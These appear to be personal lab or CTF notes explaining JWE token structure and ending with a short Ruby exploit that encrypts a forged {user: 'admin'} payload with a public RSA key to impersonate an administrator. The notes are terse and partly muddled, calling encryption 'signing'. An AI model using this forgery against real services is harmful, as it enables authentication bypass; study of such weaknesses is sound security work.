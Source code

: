  - in jwt , payload can be seen by anyone by base64 decoding

- in jwe . payload data is encrypted , cannot see unless decrypted


Two keys are used :
- A key to encrypt the `body`: the `Content Encryption Key` (`CEK`).
- A key to encrypt: the `Content Encryption Key`


# STRUCTURE

![[Pasted image 20250528182922.png]]

- `Encrypt(CEK, public_key)`:  `CEK` encrypted using the `public_key`. specified as `alg`
- `Encrypt(Data, CEK)`:  `data` encrypted using `CEK`specified as `enc`



# EXPLOIT

```
require 'jwe'
require 'openssl'
require 'json'

public_key_pem = <<~PEM
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA66BEnFnKRA7C3DR5cMqL
D+5KYyiSFrBkpf3uundWvQopYdgVR/NxpB6I2yDUjR8tx9y2BJYc6XtZp42o/hq+
7ZV18/lMWJITzRcB1K2bDsJ+qw4F3Y/voMobyRcSn1x3b95bj5l+S725zaxEMeOQ
FQEsgY3PA4YsZnPk22fxrp36G+KOKbuooM1VRUzptOsoabf6gTAfKf6MZVWU2OMx
kM3LN4SJhHVf0JI7vy9nK62qeygIWL+KLCmKywI74Je5zsaXja931vnJGzF6wmqc
ptm2btTX3WdTwoSZ6HvkGumPG0TiU6BbDSSiBuxn/CAnFe0t9eZWpSViWTCWqopQ
FQIDAQAB
-----END PUBLIC KEY-----
PEM

key = OpenSSL::PKey::RSA.new(public_key_pem)

payload = { user: "admin" }.to_json
puts JWE.encrypt(payload, key, enc: 'A192GCM')

```

- sign with public key byguessing the payload as `{user:"admin"}` 
- public key is given to users publicly


